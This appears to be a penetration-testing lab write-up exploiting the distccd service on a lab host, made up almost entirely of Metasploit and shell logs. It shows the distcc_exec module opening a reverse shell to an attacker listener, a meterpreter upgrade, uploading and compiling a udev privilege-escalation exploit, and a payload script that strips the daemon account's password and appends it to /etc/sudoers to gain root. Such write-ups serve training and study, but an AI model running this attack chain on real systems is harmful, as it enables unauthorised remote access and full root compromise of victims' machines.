



# distccd

distccd - distributed C/C++ compiler server

3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

```shell
msf6 > search distccd

Matching Modules
================

 #Name Disclosure DateRank CheckDescription
 ----- ------------------- ----------------
 0exploit/unix/misc/distcc_exec2002-02-01 excellentYesDistCC Daemon Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/misc/distcc_exec

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_bash
msf6 exploit(unix/misc/distcc_exec) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash                                normal  No     Unix Command Shell, Reverse TCP (/dev/tcp)
   7   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   8   payload/cmd/unix/reverse_openssl                             normal  No     Unix Command Shell, Double Reverse TCP SSL (openssl)
   9   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   10  payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   11  payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   12  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   13  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

```shell
msf6 exploit(unix/misc/distcc_exec) > set payload payload/cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > info cmd/unix/reverse

       Name: Unix Command Shell, Double Reverse TCP (telnet)
     Module: payload/cmd/unix/reverse
   Platform: Unix
       Arch: cmd
Needs Admin: No
 Total size: 100
       Rank: Normal

Provided by:
  hdm <x@hdm.io>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
  Creates an interactive shell through two inbound connections
```

```shell
msf6 exploit(unix/misc/distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.0.2.4         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

```shell
msf6 exploit(unix/misc/distcc_exec) > exploit -z

[*] Started reverse TCP double handler on 10.0.2.15:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UgtRqT1rreV3Zjw5;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "UgtRqT1rreV3Zjw5\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.4:35921) at 2022-11-04 09:09:24 -0400
[*] Session 1 created in the background.

msf6 exploit(unix/misc/distcc_exec) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.2.15:4433 
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] Meterpreter session 2 opened (10.0.2.15:4433 -> 10.0.2.4:42180) at 2022-11-04 09:09:52 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
```

```shell
msf6 exploit(unix/misc/distcc_exec) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 6837 created.
Channel 2 created.
pwd
/tmp
whoami  
daemon
ls -la
total 20
drwxrwxrwt  4 root     root    4096 Nov  4 00:05 .
drwxr-xr-x 21 root     root    4096 May 20  2012 ..
drwxrwxrwt  2 root     root    4096 Nov  3 21:26 .ICE-unix
-r--r--r--  1 root     root      11 Nov  3 18:26 .X0-lock
drwxrwxrwt  2 root     root    4096 Nov  3 18:26 .X11-unix
-rw-------  1 tomcat55 nogroup    0 Nov  3 18:26 4619.jsvc_up
exit
```

```shell
┌──(kali㉿kali)-[~]
└─$ searchsploit udev                                                                                                      
----------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                     |  Path
----------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 2.6 (Debian 4.0 / Ubuntu / Gentoo) UDEV < 1.4.1 - Local Privilege Escalation (1)                                      | linux/local/8478.sh
Linux Kernel 2.6 (Gentoo / Ubuntu 8.10/9.04) UDEV < 1.4.1 - Local Privilege Escalation (2)                                         | linux/local/8572.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                                                         | linux/local/41886.c
Linux Kernel UDEV < 1.4.1 - 'Netlink' Local Privilege Escalation (Metasploit)                                                      | linux/local/21848.rb
----------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results                                                                                                                                                               

```

```shell
meterpreter > upload /usr/share/exploitdb/exploits/linux/local/8572.c 8572.c
[*] uploading  : /usr/share/exploitdb/exploits/linux/local/8572.c -> 8572.c
[*] Uploaded -1.00 B of 2.69 KiB (-0.04%): /usr/share/exploitdb/exploits/linux/local/8572.c -> 8572.c
[*] uploaded   : /usr/share/exploitdb/exploits/linux/local/8572.c -> 8572.c
meterpreter > shell
Process 6880 created.
Channel 4 created.
gcc 8572.c -o 8572
8572.c:110:28: warning: no newline at end of file
head 8572.c -n 35
/*
 * cve-2009-1185.c
 *
 * udev < 141 Local Privilege Escalation Exploit
 * Jon Oberheide <jon@oberheide.org>
 * http://jon.oberheide.org
 *
 * Information:
 *
 *   http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1185
 *
 *   udev before 1.4.1 does not verify whether a NETLINK message originates
 *   from kernel space, which allows local users to gain privileges by sending
 *   a NETLINK message from user space.
 *
 * Notes:
 *
 *   An alternate version of kcope's exploit.  This exploit leverages the
 *   95-udev-late.rules functionality that is meant to run arbitrary commands
 *   when a device is removed.  A bit cleaner and reliable as long as your
 *   distro ships that rule file.
 *
 *   Tested on Gentoo, Intrepid, and Jaunty.
 *
 * Usage:
 *
 *   Pass the PID of the udevd netlink socket (listed in /proc/net/netlink,
 *   usually is the udevd PID minus 1) as argv[1].
 *
 *   The exploit will execute /tmp/run as root so throw whatever payload you
 *   want in there.
 */

#include <stdio.h>
#include <string.h>

cat /proc/net/netlink
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
f7c4c800 0   0      00000000 0        0        00000000 2
dfc22a00 4   0      00000000 0        0        00000000 2
f7f6c000 7   0      00000000 0        0        00000000 2
f7d04c00 9   0      00000000 0        0        00000000 2
f7d00c00 10  0      00000000 0        0        00000000 2
f7c4cc00 15  0      00000000 0        0        00000000 2
f7d7fe00 15  2434   00000001 0        0        00000000 2
f7c77800 16  0      00000000 0        0        00000000 2
df93e000 18  0      00000000 0        0        00000000 2
```



```shell
meterpreter > cat run 
#!/bin/bash
passwd -d daemon
echo "daemon ALL=(ALL) ALL" >> /etc/sudoers
meterpreter > shell
Process 6931 created.
Channel 13 created.
ls -l
total 20
-rw------- 1 tomcat55 nogroup    0 Nov  3 18:26 4619.jsvc_up
-rwxr-xr-x 1 daemon   daemon  8634 Nov  4 00:13 8572
-rw-r--r-- 1 daemon   daemon  2757 Nov  4 00:13 8572.c
-rw-r--r-- 1 daemon   daemon    65 Nov  4 00:21 run
./8572 2434
meterpreter > shell
Process 6978 created.
Channel 19 created.
./8572 2434
sudo whoami
root
```

```shell
msf6 exploit(unix/misc/distcc_exec) > use post/multi/manage/sudo
msf6 post(multi/manage/sudo) > show info

       Name: Multiple Linux / Unix Post Sudo Upgrade Shell
     Module: post/multi/manage/sudo
   Platform: AIX, Linux, OSX, Solaris, Unix
       Arch: 
       Rank: Normal

Provided by:
  todb <todb@metasploit.com>
  Ryan Baxendale <rbaxendale@gmail.com>

Compatible session types:
  Shell

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  PASSWORD                   no        The password to use when running sudo.
  SESSION                    yes       The session to run this module on

Description:
  This module attempts to upgrade a shell account to UID 0 by reusing 
  the given password and passing it to sudo. This technique relies on 
  sudo versions from 2008 and later which support -A.

References:
  http://www.sudo.ws/repos/sudo/file/05780f5f71fd/sudo.h
 
msf6 post(multi/manage/sudo) > set session 1
session => 1
msf6 post(multi/manage/sudo) > run -z

[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] No password available, trying a passwordless sudo.
[+] SUDO: Root shell secured.
[*] Post module execution completed
msf6 post(multi/manage/sudo) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.2.15:4433 
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] Meterpreter session 3 opened (10.0.2.15:4433 -> 10.0.2.4:34134) at 2022-11-04 10:43:38 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 post(multi/manage/sudo) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > shell 
Process 7078 created.
Channel 1 created.
whoami
root
touch /home/msfadmin/distccd
exit
```




1. [https://nvd.nist.gov/vuln/detail/CVE-2004-2687](https://nvd.nist.gov/vuln/detail/CVE-2004-2687)
2. [http://distcc.samba.org/security.html](https://nvd.nist.gov/vuln/detail/CVE-2004-2687)
3. OSVDB (13378)
